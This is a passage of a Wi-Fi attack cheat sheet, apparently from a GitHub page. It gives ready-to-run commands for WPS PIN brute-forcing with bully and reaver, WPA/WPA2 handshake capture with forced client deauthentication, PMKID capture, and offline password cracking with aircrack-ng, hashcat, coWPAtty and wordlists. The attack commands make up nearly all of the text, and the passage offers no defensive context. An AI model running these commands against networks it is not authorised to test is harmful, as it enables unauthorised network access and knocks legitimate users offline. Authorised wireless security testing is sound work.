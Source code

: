 **Bully** is an alternative with similar options:

```bash
bully wlan0mon -b <BSSID> -c <CHANNEL> -v 3
```

---
### Null PIN & Known PIN Databases

```bash
reaver -i wlan0mon -b <BSSID> -p '' -vv
```
Or use custom PIN lists (e.g., default WPS PINs for certain vendors).

---
## 7. WPA/WPA2 Attacks

### Handshake Capture & Cracking

1. **Capture**:
```bash
airodump-ng -c <CHANNEL> --bssid <BSSID> -w <OUTFILE> wlan0mon
aireplay-ng -0 5 -a <BSSID> -c <CLIENT_MAC> wlan0mon
```
- **Verify handshake** (top-right corner in airodump-ng or `aircrack-ng <OUTFILE>.cap`).
- **Crack with dictionary**:
```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b <BSSID> <OUTFILE>.cap
```

---
### PMKID (Client-less Attack)
```bash
hcxdumptool -i wlan0mon -o pmkid_dump.pcapng --enable_status=1
hcxpcaptool -z pmkid.16800 pmkid_dump.pcapng
hashcat -m 16800 pmkid.16800 /usr/share/wordlists/rockyou.txt
```

---
### Cracking with aircrack-ng, hashcat, coWPAtty, Pyrit, John

```bash
aircrack-ng -w <WORDLIST> -b <BSSID> <CAPTURE.cap>
```

```bash
cap2hccapx <CAPTURE.cap> <OUTPUT>.hccapx
hashcat -m 2500 <OUTPUT>.hccapx /usr/share/wordlists/rockyou.txt
# Or PMKID (16800)
hashcat -m 16800 pmkid.16800 /usr/share/wordlists/rockyou.txt
```

```bash
cowpatty -r <CAPTURE.cap> -f <WORDLIST> -s <SSID>
# Precompute PMK
genpmk -f <WORDLIST> -d <DBfile> -s <SSID>
cowpatty -r <CAPTURE.cap> -d <DBfile> -s <SSID>
```
